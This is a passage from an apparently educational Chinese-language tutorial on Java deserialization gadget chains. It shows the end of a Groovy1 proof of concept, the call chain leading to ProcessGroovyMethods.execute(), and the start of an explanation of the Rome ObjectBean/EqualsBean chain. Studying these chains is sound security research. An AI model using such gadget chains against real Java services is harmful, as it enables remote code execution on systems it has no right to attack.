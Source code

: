 ```java

        // 使用动态代理初始化 AnnotationInvocationHandler
        InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Target.class, handler);

        try{
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./Groovy"));
            outputStream.writeObject(invocationHandler);
            outputStream.close();

            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./Groovy"));
            inputStream.readObject();
        }catch(Exception e){
            e.printStackTrace();
        }
    }
}
```

调用链：
```
AnnotationInvocationHandler.readObject()
    Map.entrySet() (Proxy)
        ConversionHandler.invoke()
            ConvertedClosure.invokeCustom()
		        MethodClosure.call()
                    ProcessGroovyMethods.execute()
```

参考：
[从Jenkins RCE看Groovy代码注入](https://xz.aliyun.com/t/8231)
[Java安全-Groovy](https://xz.aliyun.com/t/10703)
[ysoserial Java 反序列化系列第一集 Groovy1 ](https://www.anquanke.com/post/id/202730)

## Rome
ROME 是一个可以兼容多种格式的 feeds 解析器，可以从一种格式转换成另一种格式，也可返回指定格式或 Java 对象，Rome是为RSS聚合而开发的开源包，它可以支持0.91、0.92、0.93、0.94、1.0、2.0，可以说rss的版本基本上都支持了
下载地址：[https://rometools.github.io/rome/ROMEReleases/ROME1.0Release.html](https://rometools.github.io/rome/ROMEReleases/ROME1.0Release.html)
### 前置知识
#### ObjectBean
`com.sun.syndication.feed.impl.ObjectBean`是 Rome 提供的一个封装类型，初始化时提供了一个 Class 类型和一个 Object 对象实例进行封装
![](https://img-blog.csdnimg.cn/1f329ce1a1064fa2af6d10cdb7d9db55.png)
ObjectBean 也是使用委托模式设计的类，其中有三个成员变量，分别是 EqualsBean/ToStringBean/CloneableBean 类，这三个类为 ObjectBean 提供了 equals、toString、clone 以及 hashCode 方法

看一下 ObjectBean 的`hashCode`方法，会调用 EqualsBean 的`beanHashCode`方法
![](https://img-blog.csdnimg.cn/5d1e9f79e3e24c02b37f08925f54dc89.png)
会调用 EqualsBean 中保存的`_obj`的`toString()`方法
![](https://img-blog.csdnimg.cn/58239d92c84744188793a82ef3bbb845.png)
而这个`toString()`方法也就是触发利用链的地方，继 BadAttributeValueExpException 之后的另一个使用`toString()`方法触发利用的链

